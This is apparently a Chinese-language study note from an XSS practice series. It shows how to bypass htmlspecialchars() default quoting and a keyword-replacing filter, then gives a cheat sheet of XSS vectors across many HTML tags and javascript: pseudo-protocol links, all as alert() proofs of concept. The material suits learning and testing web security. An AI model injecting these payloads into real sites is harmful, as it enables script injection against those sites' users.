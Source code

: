 # Day 9 

## 2019/07/16

### XSS 

#### 第三关的htmlspecialchars() 绕过

这个函数的用法参见
```
http://www.w3school.com.cn/php/func_string_htmlspecialchars.asp
```

**示例：**

```php
<?php 
	$name = $_GET["name"];
	$name = htmlspecialchars($name);
?>
 
<input type='text' value='<?php echo $name?>'>
```
注意一下这个函数的几个重要参数

ENT_COMPAT - `默认。`仅编码双引号。

ENT_QUOTES - 编码双引号和单引号。

ENT_NOQUOTES - 不编码任何引号。

默认是只编码双引号的！默认只编码双引号！默认只编码双引号……

payload:`keyword=111'onmouseover='javascript:alert(1)`

因为默认参数只让双引号转义而不让单引号转义，所以可以构造闭合

#### 第五关使用构造伪协议

源码里面看到

```php
$str = strtolower($_GET["keyword"]);
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
```

传统方法构造的payload里面的字符串会被替换掉

所以可以用下面的构造出伪协议


`"><iframe src=javascript:alert(1)>`

`"> <a href="javascript:alert(1)">click</a>`

`"> <a href="javascript:%61lert(1)">click</a> //`

![img1]()



























#### 各种标签的用法

##### **\<scirpt\>**

`<scirpt>alert("xss");</script>`

##### **\<img\>**

`<img src=1 onerror=alert("xss");>`
##### **\<input\>**

`<input onfocus="alert('xss');">`

竞争焦点，从而触发onblur事件

`<input onblur=alert("xss") autofocus><input autofocus>`

通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发

`<input onfocus="alert('xss');" autofocus>`

##### **\<details\>**

`<details ontoggle="alert('xss');">`

使用open属性触发ontoggle事件，无需用户去触发

`<details open ontoggle="alert('xss');">`

##### **\<svg\>**

`<svg onload=alert("xss");>`

##### **\<select\>**

`<select onfocus=alert(1)></select>`

通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发

`<select onfocus=alert(1) autofocus>`

##### **\<iframe\>**

`<iframe onload=alert("xss");></iframe>`

##### **\<video\>**

`<video><source onerror="alert(1)">`

##### **\<audio\>**

`<audio src=x  onerror=alert("xss");>`

##### **\<body\>**

`<body/onload=alert("xss");>`

利用换行符以及autofocus，自动去触发onscroll事件，无需用户去触发

`<body
onscroll=alert("xss");><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>`

##### **\<textarea\>**

`<textarea onfocus=alert("xss"); autofocus>`

##### **\<keygen\>**

`<keygen autofocus onfocus=alert(1)> //仅限火狐`

##### **\<marquee\>**

`<marquee onstart=alert("xss")></marquee> //Chrome不行，火狐和IE都可以`

##### **\<isindex\>**

`<isindex type=image src=1 onerror=alert("xss")>//仅限于IE`


#### js伪协议

##### **\<a\>标签**

`<a href="javascript:alert(`xss`);">xss</a>`

##### \<iframe\>标签

`<iframe src=javascript:alert('xss');></iframe>`

##### **\<img\>标签**

`<img src=javascript:alert('xss')>//IE7以下`

##### **\<form\>标签**

`<form action="Javascript:alert(1)"><input type=submit>`

### copied from:
```
https://xz.aliyun.com/t/4067
```